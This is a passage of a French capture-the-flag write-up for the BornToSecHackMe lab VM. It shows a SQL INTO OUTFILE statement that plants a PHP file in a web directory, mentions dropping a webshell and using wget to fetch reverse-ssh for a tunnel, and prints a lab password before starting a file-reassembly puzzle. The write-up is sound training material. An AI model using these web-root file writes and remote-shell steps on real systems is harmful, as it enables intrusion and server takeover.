Cette requête me permet de créer un `phpinfo` dans le dossier de templates du forum :

```sql
SELECT '<?php phpinfo(); ?>' INTO OUTFILE '/var/www/forum/templates_c/dvinfo.php'
```

J'y apprend que la machine est en 32 bits et que l'utilisateur courant est `www-data`. De la même façon je dépose un webshell.

Je l'utilise pour rappatrier `reverse-ssh` en 32 bits à l'aide de `wget` puis, une fois le tunnel SSH établit, je fouille un peu puis trouve un dossier intéressant dans `/home` :

```
www-data@BornToSecHackMe:/$ ls /home/
total 0
drwxrwx--x 1 www-data             root                  60 Oct 13  2015 .
drwxr-xr-x 1 root                 root                 220 Nov 26 17:04 ..
drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
drwxr-x--- 1 laurie@borntosec.net laurie@borntosec.net  60 Oct 15  2015 laurie@borntosec.net
dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz
```

Le dossier contient un fichier qui renferme des identifiants :

```shellsession
www-data@BornToSecHackMe:/home/LOOKATME$ cat password
lmezard:G!@M6f4Eatau{sF"
```

## Rest In Pieces

On peut alors changer d'utilisateur (via `su`) et découvrir de nouveaux fichiers :

```shellsession
lmezard@BornToSecHackMe:~$ ls -al
total 791
dr-xr-x--- 2 lmezard  lmezard     61 Oct 15  2015 .
drwxrwx--x 1 www-data root        60 Oct 13  2015 ..
-rw-r--r-- 1 root     root         1 Oct 15  2015 .bash_history
-rwxr-x--- 1 lmezard  lmezard 808960 Oct  8  2015 fun
-rwxr-x--- 1 lmezard  lmezard     96 Oct 15  2015 README
lmezard@BornToSecHackMe:~$ cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
lmezard@BornToSecHackMe:~$ file fun
fun: POSIX tar archive (GNU)
```

Cette archive contient 750 fichiers PCAP qui n'en sont en réalité pas (ce ne sont pas des captures réseau). Il s'agit en réalité de boût de code d'un programme C.

Les fichiers font tous moins de 50 octets, sauf un, où l'on peut lire ça au milieu des lignes :

```c
int main() {
        printf("M");
        printf("Y");
        printf(" ");
        printf("P");
        printf("A");
        printf("S");
        printf("S");
        printf("W");
        printf("O");
        printf("R");
        printf("D");
        printf(" ");
```